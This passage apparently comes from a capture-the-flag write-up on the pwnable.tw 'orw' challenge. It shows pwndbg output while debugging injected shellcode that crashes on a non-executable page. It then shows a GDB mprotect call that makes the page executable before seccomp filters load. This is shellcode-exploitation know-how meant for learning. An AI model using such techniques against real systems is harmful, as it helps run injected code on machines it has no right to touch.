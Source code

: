```sh
   0x804a081 <shellcode+33>    mov    ebx, eax
   0x804a083 <shellcode+35>    mov    ecx, esp
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xfff15a9c —▸ 0x804858c (main+68) ◂— mov eax, 0
01:0004│-008 0xfff15aa0 ◂— 1
02:0008│-004 0xfff15aa4 —▸ 0xfff15ac0 ◂— 1
03:000c│ ebp 0xfff15aa8 —▸ 0xf7f5f020 (_rtld_global) —▸ 0xf7f5fa40 ◂— 0
04:0010│+004 0xfff15aac —▸ 0xf7cfe519 (__libc_start_call_main+121) ◂— add esp, 0x10
05:0014│+008 0xfff15ab0 —▸ 0xfff16fff ◂— '/home/alter/lab/pwnable.tw/orw/orw'
06:0018│+00c 0xfff15ab4 ◂— 0x70 /* 'p' */
07:001c│+010 0xfff15ab8 —▸ 0xf7f5f000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x36f2c
────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► 0 0x804a060 shellcode
   1 0x804858c main+68
   2 0xf7cfe519 __libc_start_call_main+121
   3 0xf7cfe5f3 __libc_start_main+147
   4 0x80483f1 _start+33
```

We encountered a `SIGSEGV` (Segmentation Fault) despite our shellcode appearing to be correct. The root cause of this issue lies in the memory protection settings—specifically, the address `0x804a060` does not have `execution` permissions.
```sh
pwndbg> vmmap 0x804a060
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
     Start        End Perm     Size Offset File
 0x8049000  0x804a000 r--p     1000      0 /home/alter/lab/pwnable.tw/orw/orw
►0x804a000  0x804b000 rw-p     1000   1000 /home/alter/lab/pwnable.tw/orw/orw +0x60
0xf7cdd000 0xf7cfd000 r--p    20000      0 /usr/lib/i386-linux-gnu/libc.so.6
```

As seen in the memory map, the region `0x804a000 - 0x804b000` is marked as `rw-p` (read-write), but it lacks execution (`x`) permissions. This means that while we can write shellcode to this address, we cannot execute it, resulting in a `segmentation fault`.

This issue often arises due to differences in kernel versions between our local machine and the target server. Some kernel versions enforce stricter memory protections by default, which may cause unexpected behavior during exploitation.

To resolve this and continue debugging, we can manually grant execution permissions to this memory region using the following command in GDB:

```sh
call (int)mprotect(0x804a000, 0x1000, 7)
```
Here, `mprotect` is used to change the permissions of the memory at `0x804a000` with a size of `0x1000` (one memory page) to `7 (PROT_READ | PROT_WRITE | PROT_EXEC)`. This allows our shellcode to execute properly.

*Important*: We must issue this command before `orw_seccomp` is called. Once `orw_seccomp` is executed, it will enforce `seccomp` filters that block the `mprotect` syscall, making it impossible to modify memory permissions later.
```sh
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────
 EAX  0x8048548 (main) ◂— lea ecx, [esp + 4]
 EBX  0xf7ed5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
 ECX  0xff8ec6f0 ◂— 1
 EDX  0xff8ec710 —▸ 0xf7ed5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
 EDI  0xf7f2cb80 (_rtld_global_ro) ◂— 0
 ESI  0xff8ec7a4 —▸ 0xff8edfff ◂— '/home/alter/lab/pwnable.tw/orw/orw'
 EBP  0xff8ec6d8 —▸ 0xf7f2d020 (_rtld_global) —▸ 0xf7f2da40 ◂— 0
 ESP  0xff8ec6d4 —▸ 0xff8ec6f0 ◂— 1
 EIP  0x8048556 (main+14) ◂— sub esp, 4
```